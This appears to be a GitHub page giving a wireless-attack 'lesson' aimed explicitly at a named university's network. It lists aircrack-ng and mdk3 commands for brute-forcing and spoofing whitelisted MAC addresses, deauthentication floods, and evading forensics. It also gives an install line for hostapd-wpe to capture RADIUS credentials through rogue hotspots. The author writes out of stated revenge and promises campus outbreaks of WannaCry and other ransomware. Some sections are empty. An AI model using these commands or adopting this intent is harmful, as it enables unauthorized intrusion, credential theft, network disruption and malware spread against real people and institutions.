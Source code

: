 Chang Tan

Lister Unlimited Cybersecurity Solutions, LLC.

changtan@listerunlimited.com

# Overview

WEP and WPA, any of them, are among the worst-implemented security standards in history, security holes galore even in RADIUS networks. Don't believe anything that IT or the pathetic Blue Team will tell you about how they can't be pwned.

In this lesson I will show you...

1. How to defeat every wireless implementation ever made, including WPA2-ENT/MGT
2. How to unban yourself by stealing a whitelisted MAC address.
3. How to turn your smart device into a Proxy NAT, converts cell phones into modems

This is in response to UNLV OIT's campaign of selective harassment against my laptop and my accusations of being a malicious hacker. I have decided to show off how ANYONE with ten dollars to afford on a special adapter can pull this off.

I also intend to flesh this section out much better, because with proper use of this section you can combine it with other tactics to launch devastating wireless attack campaigns with no trace of forensically identifiable data.

Now UNLV's routers uses a system known as WIDS, where multiple access points share the same name but have distinctly different MAC addresses. Within this system there are a handful of things that you should be aware of...

1. They have a blacklist of banned MACs, probably mine
2. They have a whitelist of allowed MACs, specific devices meant to connect such as other routers and diagnostic adapters.
3. For UNLV-Secure, they implemented RADIUS authentication, basically you get a username and a password. And if you don't, then you can go steal another person's user/pass by generating your own phishing hotspot.
4. For UNLV-Guest, they implemented HSTS but they can selectively turn them on and off for people me like at will. Because these fuckers are like Big Brother. THey also don't want me to graduate so they send these kiddie hackers to harass me and keep me from completing my online homework.
5. I highly recommend coding a framework that will automatically enter these commands. Because this is more like a cheatsheet. And live on the field, you need preparation to implement these.

Or make a script or something.


# Penetration Testing Adapters


There is a short list of criteria that defines a pentest capable adapter versus a standard wireless adapter owned by tools.

1. ARP Injection capable
2. Monitor Mode Capable.

And thats it. What is the price premium for such a fantastic adapter?

```Ten Dollars Extra```

Not kidding here folks. You can buy them here. Make sure you shop for the Atheros 9271 Chipset. The Realtek RT3070 is also decent but I highly recommend the ALFA-based A9271s.

# MDK3 MAC Address brute forcing and impersonation

Each wireless router has a set of default MAC addresses that it is designed to accept. If this did not exist, then nobody could administer the network. This is called whitelisting. WE need to find the whitelisted MAC addresses as so.

```
airmon-ng start <iface>
airodump-ng <moniface>
```

Now brute force a whitelisted MAC address.
```
mdk3 <iface> f -t <bssid>
```

Alternatively you can brute force a MAC address range you are aware that it accepts... for example, all mac address combinations start begins with 00:00:0A.
```
mdk3 <iface> -f -t <bssid> -m 00:00:0A
```
Once we have received a valid MAC address, we need to save it and then change our MAC address to it.
```
ifdown <iface>
macchanger -m '<mac>'
hostnamectl set-hostname '<name>'
rfkill unblock all
ifup <iface>
wpa_supplicant -i <iface> -c <config>
```
# Using mobile devices as a Proxy NAT

This should be used prior to purchasing any pentest adapters as it tends to work better. ANd you have a proxy NAT, its called a smartphone.

In either your iPhone or Android, plug it into your laptop and activate USB debugging and USB tethering.

[Network]------>[Wi-Fi]----------->[Smartphone Proxy 192.168.42.1]------>[usb0 Android Debugging iface]----> [HOST]
[HOST]------>[virbr0 virtual bridge]---->[Kali Linux]


```
ifconfig -a
```

```
ifconfig usb0 up
dhclient usb0
```

# Defeating a RADIUS Network (WPA2-ENT)

Be sure to get the 'wpe' in the tag, as that is the proper one. It stands for wireless pwnage or pawn edition. And it has fake security so you can see credentials in cleartext.

```
apt-get update && apt-get install -y freeradius-wpe hostapd-wpe asleap mana-toolkit
```


# Defensive countermeasures with wireless adapters with mdk3

You can generate sensor ghosts to conceal your escape.
```
```

You can drive the router insane
```
```

You can perform mass kicks and other types of disruption.

```
mdk3 <iface> d -w <whitelisted bssids> -b <blacklisted bssids>
```

You can merge another router's clients with this one making forensics even more difficult..

```
mdk3 <iface> w -e <essid> -c -z
```

You can test whether or not IT will temporarily remove WPA encryption by checking if he will downgrade it to allow connectivity to work again
```
mdk3 <iface> g -t <bssid>
```

# Basic attacks

Now, since I wanted me revenge against this shithole school, I am going to intentionally show you how to..

1. Create rogue access points.
2. Create phishing pages.
3. Cause widespread outbreaks of WannaCry, Locky, and AndroidL0cker
4. Where to find dangerously powerful new malware, including WannaCry, WannaCry+, and two proof of concept variants of SPECTRE and MELTDOWN.

I hope you are excited, because I sure am. The epidemic of cyberattacks on the campus could drain the coffers of the entire school as they try to respond to it.
